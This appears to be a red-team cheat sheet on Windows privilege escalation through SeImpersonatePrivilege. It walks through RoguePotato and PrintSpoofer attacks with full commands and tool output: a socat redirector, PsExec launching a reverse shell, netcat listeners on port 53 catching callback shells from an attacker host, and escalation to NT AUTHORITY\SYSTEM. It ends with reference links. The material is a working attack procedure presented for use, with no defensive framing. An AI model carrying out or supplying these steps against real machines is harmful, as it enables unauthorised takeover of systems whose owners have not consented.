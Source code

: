 # Living off the Land

## 01 - Detect

Check if `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` is enabled.

```
C:\Windows\system32> whoami
win-qba94kb3iof\admin

C:\Windows\system32> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
..[omitted]..
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
..[omitted]..
```

## 02 - Exploit

### 2.1 - RoguePotato

Start with a redirector using `socat`.

```
$ sudo socat tcp-listen:135,reuseaddr,fork tcp:<target_IP>:9999

C:\Windows\system32> whoami
win-qba94kb3iof\admin

C:\Windows\system32> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
..[omitted]..
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
..[omitted]..
```

Start a shell handler before running `PsExec64.exe` as in `NT AUTHORITY\LOCAL SERVICE` to receive a callback shell.

```
C:\Windows\system32> cd c:\Tools

C:\Tools> PsExec64.exe -i -u "nt authority\local service" c:\Tools\shell.exe

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\local service

C:\Windows\system32> cd c:\Tools

C:\Tools> RoguePotato.exe -r <attacker_IP> -e shell.exe -l 9999
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] IStoragetrigger written:106 bytes
[*] SecurityCallback RPC call
[*] ServerAlive2 RPC Call
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!
[+] Got SYSTEM Token!!!
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: shell.exe
[+] RoguePotato gave you the SYSTEM powerz :D

$ sudo nc -lnvp 53
C:\Tools> whoami
nt authority\system
```

### 2.2 - PrintSpoofer

```
C:\Tools> PsExec64.exe -i -u "nt authority\local service" c:\Tools\shell.exe

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\local service

C:\Windows\system32> whoami /priv

C:\Windows\system32> cd c:\Tools

C:\Tools> PrintSpoofer.exe -c shell.exe -i
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\system
```

---
## References

### Github

- [gtworek: Priv2Admin](https://github.com/gtworek/Priv2Admin)

- [itm4n: PrinterSpoofer](https://github.com/itm4n/PrintSpoofer)

- [lypd0: DeadPotato](https://github.com/lypd0/DeadPotato)

- [breenmachine: RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)

### Hacktricks

- [Hacktricks: RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer.html)

- [Hacktricks: Abusing Tokens](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html)

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)

### Hacking Articles

- [Hacking Articles: Windows Privilege Escalation SeImpersonatePrivilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)

### itm4n

- [itm4n: PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

### Juggernaut-Sec

- [Juggernaut-Sec: SeImpersonatePrivilege – Windows Privilege Escalation](https://juggernaut-sec.com/seimpersonateprivilege/)

### ohpe

- [ohpe: Juicy Potato CLSID Enumeration](https://ohpe.it/juicy-potato/CLSID/)

### Jlajara

- [Jlajara: Potatoes Windows Privilege Escalation](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)